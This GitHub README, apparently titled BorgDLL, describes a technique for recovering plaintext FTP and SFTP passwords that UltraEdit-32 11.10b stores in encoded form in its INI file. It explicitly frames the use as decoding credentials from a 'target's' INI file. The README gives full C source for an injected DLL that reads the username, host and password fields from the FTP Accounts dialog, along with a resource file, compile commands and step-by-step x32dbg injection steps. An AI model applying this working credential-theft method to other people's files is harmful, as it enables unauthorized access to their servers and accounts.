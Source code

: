# BorgDLL
Using DLL injection to recover encoded credentials

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue99.png)

This example shows how to compile a Windows DLL and inject it using x32dbg into UltraEdit-32 verion 11.10b in order to expose the plaintext passwords from the encoded strings stored in the UEStudio.INI file.  This scenario is useful when you have obtained a target's INI file and you wish to recover the plaintext FTP and SFTP/SSH credentials from memory, rather than throw them at a honeypot.  The password encoding scheme is a complex proprietary obfuscation algorithm, so rather than port the algorithm to a scripting language, you can use this technique to turn your own installation of UltraEdit-32 into a personal decoder ring.  This example takes the UEStudio.INI file and loads it under the application installed on a Windows 7 Pro 32-bit VM.

The binaries that were reverse engineered for this demonstration are:<br />
```
uedit32.exe file ver 11.1.2.0 SHA1 = bea1b540a597f9750ccff19cea5615037ccd350d
ueres.dll file ver 11.1.2.0 SHA1 = f30c20e822630e8759c5ecf037fa23856aeb851b
```

UltraEdit-32 verion 11.10b looks like this when you launch it.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue00.png)

The application allows you to retrieve files to be edited via FTP or SFTP.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue01.png)

The password for a connection entry is encoded as 256 hexadecimal characters.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue02.png)

The dialog box resource where a user enters credentials is found in the `ueres.dll` file.  The following control IDs will be used in this example.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue03.png)

This is the dialog box resource file `showpw.rc` that will be used to display the plaintext credentials.

```
#include <windows.h>
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

100 DIALOG 40, 40, 300, 110
STYLE DS_SETFONT | DS_SETFOREGROUND | WS_POPUP | WS_CAPTION
CAPTION "Password Decoder"
LANGUAGE LANG_ENGLISH, SUBLANG_ENGLISH_US
FONT 11, "Courier New"
{
   EDITTEXT IDC_PLAINTEXT, 11, 15, 280, 59, ES_LEFT | ES_MULTILINE | ES_AUTOVSCROLL | ES_WANTRETURN | WS_CHILD | WS_VISIBLE | WS_BORDER | WS_VSCROLL
   PUSHBUTTON "&OK", IDC_OK, 128, 84, 38, 12, BS_PUSHBUTTON | WS_CHILD | WS_VISIBLE
}
```

compile the above resource file like this:<br />
`i686-w64-mingw32-windres showpw.rc -O coff -o showpw.res`

This is the C program `showpw.c` that will be used to create the DLL.  It starts a thread on DLL_PROCESS_ATTACH when LoadLibrary is called from the debugger and monitors for changes in the "FTP Accounts" window.

```c
#include <windows.h>
#include <string.h>

#define IDC_PASSWORD 343 // "Password" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_USERNAME 134 // "Name" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_IPDOMAIN 342 // "Domain or IP Address" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

char sOutput[1000] = {0};

DWORD WINAPI pwthread(LPVOID lpParam);
BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam);

DWORD WINAPI pwthread(LPVOID lpParam)
{
   HWND hWndDlg;
   char sEntry1[500] = {0}, sEntry2[500] = {0}, sPassword[500] = {0};
   char sDomain[200] = {0}, sUser[200] = {0};
   HMODULE hDll;

   while(1)
   {
      hWndDlg = FindWindow(NULL, "FTP Accounts");
      if(hWndDlg)
      {
         hDll = GetModuleHandle("showpw.dll");
         Sleep(1000);
         if(GetDlgItemText(hWndDlg, IDC_IPDOMAIN, sDomain, 190))
         {
            strncpy(sEntry2, sDomain, 195);
            if(GetDlgItemText(hWndDlg, IDC_USERNAME, sUser, 190))
            {
               strncat(sEntry2, sUser, 195);
               if(strncmp(sEntry1, sEntry2, 495))
               {
                  strncpy(sEntry1, sEntry2, 495);
                  if(GetDlgItemText(hWndDlg, IDC_PASSWORD, sPassword, 490))
                  {
                     strcpy(sOutput, "Domain/IP = ");
                     strcat(sOutput, sDomain);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Username = ");
                     strcat(sOutput, sUser);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Password = ");
                     strcat(sOutput, sPassword);
                     strcat(sOutput, "\r\n\r\n");
                     DialogBox(hDll, MAKEINTRESOURCE(IDD_DLGPASSWD), NULL, DialogProc);
                  }
               }
            }
         }
      }
      else
      {
         Sleep(1000);
      }
   }
   ExitThread(0);
}

BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam)
{
   switch(message)
   {
      case WM_INITDIALOG:
         SetDlgItemText(hwndDlg, IDC_PLAINTEXT, sOutput);
         break;
      case WM_COMMAND:
         switch(LOWORD(wParam))
         {
            case IDC_PLAINTEXT:
               break;
            case IDC_OK:
               EndDialog(hwndDlg, wParam);
               return TRUE;
         }
   }
   return FALSE;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
   HANDLE hThrd;

   switch(dwReason)
   {
      case DLL_PROCESS_ATTACH:
         hThrd = CreateThread(NULL, 0, pwthread, NULL, 0, NULL);
         break;
      case DLL_THREAD_ATTACH:
         break;
      case DLL_THREAD_DETACH:
         break;
      case DLL_PROCESS_DETACH:
         break;
   }
   return TRUE;
}
```

compile the above source file like this:<br />
`i686-w64-mingw32-gcc -s -m32 -shared -Wl,--kill-at -o showpw.dll showpw.c showpw.res`<br />
then copy it to the Windows 7 VM.

On the Windows 7 VM, launch x32dbg, then from the menu go to File > Open, and navigate to `C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32` then select `uedit32.exe`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue04.png)

The program will pause when the debugger attaches.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue05.png)

Restart the application with the command line changed to use the INI file you wish to load.  For example:<br />
`"C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32\uedit32.exe" /i="C:\Users\admin\Desktop\UEStudio.INI"`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue06.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue07.png)

The program will pause again when restarted.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue08.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue10.png)

Now go to the Symbols tab, right-click and Load Library.  Select the DLL you copied over.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue11.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue12.png)

The DLL will load and show up in the module list.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue13.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue14.png)

Go to the application menu `File > FTP > Open from FTP` and click on the `Accounts` button.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue15.png)

As you cycle through the Account entries in the combo box you should see the credentials appear in the dialog box from the injected DLL.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue16.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue17.png)
